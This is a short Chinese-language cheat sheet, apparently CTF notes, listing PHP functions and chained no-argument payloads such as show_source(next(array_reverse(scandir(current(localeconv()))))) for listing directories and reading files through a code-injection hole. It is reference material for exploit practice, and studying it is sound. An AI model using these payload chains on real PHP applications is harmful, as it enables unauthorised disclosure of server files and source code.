 |file_get_contents()|显示文件内容|
|highlight_file()|显示文件内容|
|readfile()|显示文件内容|
|var_dump()|打印数组，显示文件名|
|printf()|显示文件内容|
|next()|数组指针移动到下一位|
|array_reverse()|数组位置前后调转|
|show_source(next(array_reverse(scandir(current(localeconv())))))|输出当前目录倒数第二个文件内容|
|localeconv()|详细的自己搜，返回一个数组，数组的第一个是小数点字符，因此可以用current()提取一个.|
|current()或pos()|提取数组第一个元素的值|
|scandir()|显示目录中的所有文件|
|scandir(current(localeconv()))|查看目录|
|var_dump(scandir(current(localeconv())))|输出目录|
|array_flip()|交换数组中的键和值，成功时返回交换后的数组|
|array_rand()|从数组中随机取出一个或多个单元|
|end()|取出数组中的最后一位|
|chdir()|目录跳转，例如chdir('..')就是跳转到上级目录|
|get_defined_vars()|返回由所有已定义变量所组成的数组（全局变量）|
|dirname()|返回当前文件的路径，就是pwd|
|getcwd()|返回当前的工作目录|
|getallheaders()|返回所有的请求头数组|
|getenv()|php7.1版本以后才能使用，获取环境变量|
|time()|返回当前的Unix时间戳|
|localtime()|取得本地时间|
|localtime(time())|返回一个数组，0-60之间|
|__halt_compiler();|停止对当前脚本的编译，可用于去掉后边没用的字符串|
|pos()|取出数组的第一个元素|
|print_r(scandir(next(scandir(getcwd()))));|输出上级目录|
|print_r(highlight_file(array_rand(array_flip(scandir(current(localeconv()))))));|赌狗操作，随机读当前目录文件|

**查看当前目录文件**
